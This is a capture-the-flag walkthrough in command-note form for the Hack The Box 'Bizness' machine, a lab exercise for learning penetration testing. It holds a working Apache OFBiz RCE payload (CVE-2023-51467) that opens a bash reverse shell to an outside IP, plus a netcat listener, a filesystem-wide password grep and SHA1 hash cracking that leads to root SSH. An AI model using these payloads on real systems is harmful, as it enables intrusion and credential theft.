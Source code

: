# 🧾 HTB: Bizness - Command Notes

## 🔍 Enumeration

```bash
nmap -p- -T4 10.10.11.X
```

> Port [80](HTTP) was open and used for further exploitation.

---

## 🗂️ Hosts File Update

```bash
sudo nano /etc/hosts
```

Add:

```text
10.10.11.X  bizness.htb
```

---

## 🕵️ Directory Enumeration

```bash
dirsearch -u http://bizness.htb
```

> Revealed `/control/login` and other routes.

---

## 🔐 Authentication Discovery

> Manual testing in browser showed:
- `"admin"` = valid username
- gibberish usernames = `"User does not exist"`

---

## 💥 Initial Foothold - Apache OfBiz RCE (CVE-2023-51467)

### Payload (Groovy Sandbox RCE):

```bash
curl -kv -H "Host: bizness.htb:443" \
-d "groovyProgram=x=new String[3];x[0]='bash';x[1]='-c';x[2]='bash -i >& /dev/tcp/10.10.16.98/1234 0>&1;';x.execute();" \
"https://bizness.htb:443/webtools/control/ProgramExport/?requirePasswordChange=Y&PASSWORD=lobster&USERNAME=albino"
```

> `bash reverse shell` sent via vulnerable Groovy context.  
> `curl` is used since `wget` is blocked.

---

## 📞 Set Up Listener

```bash
nc -lvnp 1234
```

---

## 🧑‍💻 Gained Shell as `ofbiz`

```bash
whoami
cat /etc/passwd
ls /home
cat user.txt
```

---

## ⬆️ Privilege Escalation

### 🔎 Grep for Passwords

```bash
grep -arin -o -E '(\w+\W+){0,5}Password(\w+\W+){0,5}' /
```

> Discovered:
- `Adminuserlogindata.xml`
- `c54d0.dat` (contains salted SHA1 hash)

---

## 🔓 Crack OfBiz SHA1 Password

### Clone Cracker Tool

```bash
git clone https://github.com/duck-sec/Apache-OFBiz-SHA1-Cracker
cd Apache-OFBiz-SHA1-Cracker
```

### Use RockYou Wordlist

```bash
python3 crack.py -w /usr/share/wordlists/rockyou.txt -H <hash>
```

> Recovered password: `monkeybizness`

---

## 🔐 [SSH](SSH) as Root

```bash
ssh root@bizness.htb
```

> Used cracked password from the OfBiz hash.

---

## 🏁 Get Root Flag

```bash
cat /root/root.txt
```